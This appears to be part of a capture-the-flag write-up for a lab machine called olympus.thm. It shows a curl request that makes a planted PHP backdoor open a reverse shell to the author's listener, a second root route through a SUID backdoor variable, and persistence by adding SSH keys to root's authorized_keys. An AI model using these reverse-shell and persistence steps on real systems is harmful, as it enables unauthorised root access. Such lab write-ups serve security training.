 ![image](https://user-images.githubusercontent.com/93153300/198897833-c9b0b8b3-a026-47f3-94cd-46c6234f205a.png)

When we tried to go to http://10.10.105.247 it redirects to olympus.thm.  However, navigating to http://10.10.105.247/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php gets a page we haven’t seen yet: 

![image](https://user-images.githubusercontent.com/93153300/198897841-a96156a0-2c0c-4ac7-974c-a8b6aad4b664.png)
 
We don’t know the password, so on our shell as zeus, check file VIGQFQFMYOST.php to see if it contains the password: cat VIGQFQFMYOST.php:

![image](https://user-images.githubusercontent.com/93153300/198897845-31ec9f74-b153-4782-bfe1-2954f33550e2.png)

Found the password: a7c5ffcf139742f52a5267c4a0674129\
Back to the website, enter the password ‘a7c5ffcf139742f52a5267c4a0674129’. It works, the page now shows:

![image](https://user-images.githubusercontent.com/93153300/198901456-7f6f66cb-f4bc-4135-aeba-c87d68e2ff0d.png)
 
Looks like instructions to get a reverse shell.  Looking back at file VIGQFQFMYOST.php:

![image](https://user-images.githubusercontent.com/93153300/198901467-cf0e216b-fb04-4373-8ecc-1220e01b7511.png)
 
The source code shows that to get a reverse shell we need to send a request, send the correct password, and open a netcat listener.  Based on the source code, our curl request should look like this:\
curl "http://10.10.123.224/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=10.2.1.148&port=443" --data "password=a7c5ffcf139742f52a5267c4a0674129"

Open netcat listener: nc -lvp 443.  → Run the curl request → we have shell as root:

![image](https://user-images.githubusercontent.com/93153300/198901474-5854cd16-98dd-480d-a48a-c969edeb30d0.png)











Another way of getting root:\
The source code in file VIGQFQFMYOST.php shows a command that we can run from our zeus shell that will get us root:

![image](https://user-images.githubusercontent.com/93153300/198897851-c4aa05da-3d18-45cf-ba55-9d1c037425fd.png)

From zeus shell, run command:  uname -a; w; $suid_bd\
We have shell as root, get the flag: cat /root/root.flag.\
We get the flag and some additional information.  The file root.flag says: \
“PS : Prometheus left a hidden flag, try and find it ! I recommend logging as root over ssh to look for it ;)”
___________________________________________________
**Persistence and getting the final flag**:\
Create ssh keys with command: ssh-keygen \
To be able to log in with the private key we just created, we need to copy the public key we just created into a file called authorized_keys. Use command: cp id_rsa.pub authorized_keys \
Download the ssh private key and change the file to proper permissions so that it doesn’t error with command: chmod 600 id_rsa_roottarget\
ssh into the target as root with command: ssh -i id_rsa_roottarget root@10.10.105.247

Search for the final flag with command: \
grep -riI "flag{" / 2>/dev/null           →       Found the flag in etc/ssl/private/.b0nus.fl4g
